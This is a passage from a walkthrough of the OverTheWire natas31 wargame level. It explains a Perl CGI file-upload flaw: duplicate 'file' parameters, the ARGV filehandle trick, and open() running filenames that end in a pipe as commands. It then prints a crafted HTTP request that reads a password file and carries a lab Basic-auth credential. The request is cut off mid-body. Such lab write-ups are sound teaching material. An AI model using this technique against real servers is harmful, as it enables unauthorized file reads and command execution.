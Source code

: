 Now, I looked up csv injection attacks, and what I could find seems to pertain to spreadsheet programs executing formulas or scripts embedded in cells. It seems doubtful that this applies in our case here. So I moved on to looking at how CGI upload works, and found a blog post tutorial that mentions validating the file name is safe to prevent the user from uploading a file to other parts of the server. Which is interesting. Because it looks like there is no validation on the file name in this script.

However, I don't want to upload something to somewhere else. I want to get the contents of a file that already exists. What else can I do here.

So reading online about open(), I find that it will open the file *unless* it ends in a `|`, in which case the filename is interpreted as a command and executed. That might be helpful.

Digging around more, I found this pdf presentation on [blackhat.com](https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf), that gave some very interesting information.

Apparently, as I found out in the previous challenge, I can take advantage of providing two query parameters with the same name. This time, I will provide two 'file's. 

For file uploads, the Content-Type is multipart/form-data. When I hit the submit button on the page, my request has the following payload in the body:
```
------WebKitFormBoundaryNVAqSsCF
Content-Disposition: form-data; name="file"; filename="hi.txt"
Content-Type: text/html

hihihi
------WebKitFormBoundaryNVAqSsCF
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryNVAqSsCF--

```

Now according to this presentation, the line `if ($cgi->upload('file'))` will check if ANY of the file parameters have been uploaded. Meaning I can provide two, and only one has to be uploadable in order for this check to succeed.
Next, the statement `$cgi->param('file')` will return all of the matching parameter values, but only the first one will actually get stored to a variable on the left side of an assignment statement.
Another good tidbit of information -- if this first 'file' value is a scalar, a plain string will be stored, and not a file handle. Why is this important? 
The while loop which iterates through the file contents, `while (<$file>)` does something special if the string value of $file is ARGV. It will loop through the query parameters and pass them to an open() call. If $file was any other plain string, nothing useful would happen.

Putting this all together, I formed the following request:
```
POST /index.pl?%2Fetc%2Fnatas_webpass%2Fnatas32 HTTP/1.1
Host: natas31.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNVAqSsCF
Origin: http://natas31.natas.labs.overthewire.org
DNT: 1
Authorization: Basic bmF0YXMzMTpoYXk3YWVjdXVuZ2l1S2FlenVhdGh1azliaWluMHB1MQ==
Connection: close
Referer: http://natas31.natas.labs.overthewire.org/index.pl
Upgrade-Insecure-Requests: 1
Content-Length: 347

------WebKitFormBoundaryNVAqSsCF
Content-Disposition: form-data; name="file"

```